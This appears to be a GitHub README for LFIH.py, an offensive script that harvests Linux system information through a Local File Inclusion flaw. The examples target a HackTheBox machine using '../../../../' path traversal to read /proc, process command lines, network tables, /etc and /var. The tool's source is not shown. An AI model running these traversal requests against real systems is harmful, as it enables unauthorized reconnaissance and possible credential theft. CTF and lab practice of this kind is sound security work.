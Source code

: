 # 💫 Linux Sysinfo Harvester via LFI 💫
Linux System Information Harvesting through Local File Inclusion (LFI) Vulnerability 🐱

```
└──╼ $python3 LFIH.py -u http://bagel.htb:8000/?page=../../../../ -h

                      __      _
                    o'')}____//
                    `_/      )
                    (_(_/-(_/
    ██      ███████ ██ ██   ██ 
    ██      ██      ██ ██   ██ 
    ██      █████   ██ ███████ 
    ██      ██      ██ ██   ██ 
    ███████ ██      ██ ██   ██                        
                    
                    Yazidou                                                                   

usage: LFIH.py [-h] -u U [-t T] [-proc] [-net] [-cmdlines] [-etc] [-var] [-all] [-p P] [-x64]

[*] Simple script for information retrieving through Local File Inclusion.

optional arguments:
  -h, --help  show this help message and exit
  -u U        Target URL
  -t T        Threads
  -proc       Retrieving on /proc
  -net        Network status (Routes, TCP, UDP, ARP) from /proc/net
  -cmdlines   Retrieving of 1-MAX_PID cmdlines on /proc/{PIDs}/cmdlines (default MAX_PID for x32, use -x64 to increase)
  -etc        Retrieving on /etc
  -var        Retrieving on /var
  -all        Retrieving all of the above
  -p P        Pathern to skip for cmdlines (i.e. NotFounds strings)
  -x64        Targeting an x64 machine (x32 by default)

```

# Examples 👨‍🎤
Retrieving processus informations : <br>
```python3 LFIH.py -u http://bagel.htb:8000/?page=../../../../ -proc```

Retrieving processes cmdlines (args) through 100 sync threads to increase speed : <br>
```python3 LFIH.py -u http://bagel.htb:8000/?page=../../../../ -cmdlines -t 100```

Retrieving processes cmdlines (args) with 50 threads and escaping "File not found" response string : <br>
```python3 LFIH.py -u http://bagel.htb:8000/?page=../../../../ -cmdlines -t 50 -p "File not found"```
